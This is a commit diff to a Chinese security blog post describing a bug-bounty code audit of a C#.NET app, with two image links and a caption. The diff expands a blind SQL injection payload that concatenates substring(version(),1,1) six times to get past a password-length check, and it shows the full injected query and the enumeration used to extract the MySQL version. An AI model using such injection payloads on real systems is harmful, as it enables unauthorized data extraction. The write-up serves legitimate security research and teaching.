

Before and after one commit to Leeyangee/leeyangee.github.io, a Jekyll site: the page built from _posts/2023-10-19-SRC实战 代码审计C#.Net 绕过未知规则从信息泄露到SQL注入.md, in a window 1280 px wide and 1400 px high, scrolled down 5417 px. Shown: the whole window at 94% size, without its empty margins (160-1119 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 6381 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2023-10-19-SRC实战 代码审计C#.Net 绕过未知规则从信息泄露到SQL注入.md

````diff
--- a/_posts/2023-10-19-SRC实战 代码审计C#.Net 绕过未知规则从信息泄露到SQL注入.md
+++ b/_posts/2023-10-19-SRC实战 代码审计C#.Net 绕过未知规则从信息泄露到SQL注入.md
@@ -140,7 +140,8 @@ SELECT studentId,studentNo,studentName  FROM base_student WHERE (idNumber='{0}'
 我尝试了几个简单的注入payload，发现请求直接没有返回值了
 我以为是简单的payload出了点问题. 于是我又输入了几个注入payload在password和username，又没反应. 我已经感觉到不对劲了
 
-但是在这里，无论我尝试了多少种payload，都绕不过去
+在这里，无论我尝试了多少种payload，都绕不过去
+但是纵观整个代码，我也没有看到任何过滤的点
 于是我转头放弃，去分析其他的api接口
 
 # [](#header-1)3、深入分析
@@ -166,13 +167,13 @@ string text = string.Format("SELECT studentId  FROM base_student WHERE studentId
 4、password字段的长度不可能低于6
 
 在这里，看似很难利用，但我们可以直接构造盲注语句
-```sql
-' and password = concat(substring(version(),1,1),substring(version(),1,1),substring(version(),1,1),substring(version(),1,1),substring(version(),1,1),substring(version(),1,1)) + '
+```
+[此时的password]' and password = concat(substring(version(),1,1),substring(version(),1,1),substring(version(),1,1),substring(version(),1,1),substring(version(),1,1),substring(version(),1,1)) + '
 
 ```
 展开后如下所示
-```sql
-' and password =
+```
+[此时的password]' and password =
 concat(
 substring(version(),1,1),
 substring(version(),1,1),
@@ -182,9 +183,26 @@ substring(version(),1,1),
 substring(version(),1,1)
 ) + '
 ```
-为什么要重复六次substring(version(),1,1)呢？因为password长度必大于等于6，因此我们必须拼接6次
-我们可以遍历令password等于'000000'、'111111'、'222222'来慢慢找到version()的第一个字符
+完整拼接后的payload展开如下所示
+```sql
+SELECT studentId
+FROM base_student
+WHERE
+	studentId = '{0}' AND
+    	PASSWORD = '[此时的password]' and
+    	password = concat(
+    		substring(version(),1,1),
+		substring(version(),1,1),
+		substring(version(),1,1),
+		substring(version(),1,1),
+		substring(version(),1,1),
+		substring(version(),1,1)
+	) + ''
+```
+当此时password的值正好等于version()第一个字符拼接6次后，该select语句返回userid，否则不返回东西. 可以根据此规则进行盲注
+为什么要重复六次substring(version(),1,1)呢？因为password长度必大于等于6，substring(version(),1,1)必须拼接6次
 
+现在我们根据规律，令password等于'000000'、'111111'、'222222'....以此遍历来慢慢找到version()的第一个字符
 再经过几次遍历后，终于找到了version()的第一个字符为5
 
 多次遍历后，终于找出了version()的值为: 5.6.49-log
````
